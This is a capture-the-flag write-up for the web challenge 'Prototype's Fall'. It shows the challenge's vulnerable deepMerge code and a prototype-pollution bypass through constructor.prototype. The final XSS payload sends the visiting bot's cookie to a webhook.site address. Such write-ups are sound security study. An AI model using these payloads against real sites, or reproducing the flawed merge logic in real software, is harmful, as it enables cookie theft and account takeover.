 # Prototype's Fall

> The system's defenses are built on flawed foundations. Their inheritance isn't as robust as they believe. To exploit their weakness, don't just corrupt the blueprint; manipulate the very essence of their creation – the constructor itself. Twist its purpose, and watch their reality crumble.

![image](./images/pf1.png)

## Observations

Inspecting the source code and outgoing requests

### Cycle Light Sequence

The button makes a GET request with query param `config: {"darkMode": true}`.

### Bot

A bot visits the URL we provide in the text box.

### getEnv()

```javascript

// Returns the current env setup. Totally hardcoded because who has time for flexibility? No params, just deal with it.
function getEnv() {
    return {
        // devMode: true, // Keeping devMode commented out for production sanity.
        log: false, // Access logs... too boring for us.
    }
}

// Merges two objects deeply. Because shallow merges are for the well-rested.
function deepMerge(dest, src) {
    for (let key in src) {
        if (!src.hasOwnProperty(key)) {
            continue
        }
        if (typeof src[key] !== 'object') {
            dest[key] = src[key];
            continue
        } else if (key === '__proto__') { // This input sanitization? Prototype pollution doesn't stand a chance.
            continue;
        }

        if (!dest[key]) {
            if (Array.isArray(src[key])) {
                dest[key] = []
            } else {
                dest[key] = {};
            }
        }
        deepMerge(dest[key], src[key]);
    }
}

// Gets the config. Defaults, env vars, all that jazz.
function getConfig() {
    config = {
        darkMode: true,
        username: "Anonymous",
    }
    const url = new URL(window.location.href);
    const params = new URLSearchParams(url.search);
    userConfig = JSON.parse(params.get("config"))
    deepMerge(config, userConfig);
    return config
} 
```

### devMode, safeHTML

```javascript
config = getConfig()
if (getEnv().log) console.log(`Config: darkMode:${config.darkMode} username:${config.username}`)

body = document.getElementById("body");
if (config.darkMode) {
    body.classList.add('dark-mode')
} else {
    body.classList.add('light-mode')
}

document.getElementById("toggle-dark-mode").addEventListener('click', function () {
    if (!userConfig) {
        userConfig = {}
    }
    userConfig.darkMode = !config.darkMode
    console.log("user config:", userConfig)

    const currentUrl = new URL(window.location.href)
    currentUrl.searchParams.set("config", JSON.stringify(userConfig))
    window.location.href = currentUrl.toString()
});

// NEXT: Add a child in a safe way. For now, only do this in dev mode.
if (getEnv().devMode) {
    console.log("append child")
    child = document.createElement('div');
    child.innerHTML = getEnv().safeHTML;
    document.body.appendChild(child)
}
```

## Approach

### Prototype Pollution

The `config` param can be used to pollute the prototype, thanks to the `deepMerge()` function

The key "\_\_proto\_\_" is blacklisted, so [found another way](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Prototype%20Pollution):

```text
/?config={"constructor":{"prototype":{"devMode":true}}}
```

![image](./images/pf2.png)

The presence of "undefined" indicates that the attack was successful; `devMode` is set to true and `safeHTML` (which is undefined) is added to the html of the page

### XSS

The bot may have the flag as a cookie (this is a classic setup in CTFs)

We know there is `safeHTML` being added to the html of the page, which can be used to perform XSS to make the bot leak the cookie

Trying it out in browser:

```text
/?config={"constructor":{"prototype":{"devMode":true,"safeHTML":"<img src=x onerror='alert(\"flag\")'>"}}}
```

![image](./images/pf3.png)

Worked!

Time for the final blow! Enter the payload (URL-encode it just to be safe) in the text box and send the bot:

```text
/?config={"constructor":{"prototype":{"devMode":true,"safeHTML":"<img src=x onerror='fetch(\"https://webhook.site/7e300cd1-041a-447c-8c7a-1fce27998e04/?cookie=\"+document.cookie)'>"}}}
```

![image](./images/pf4.png)

Got the flag!

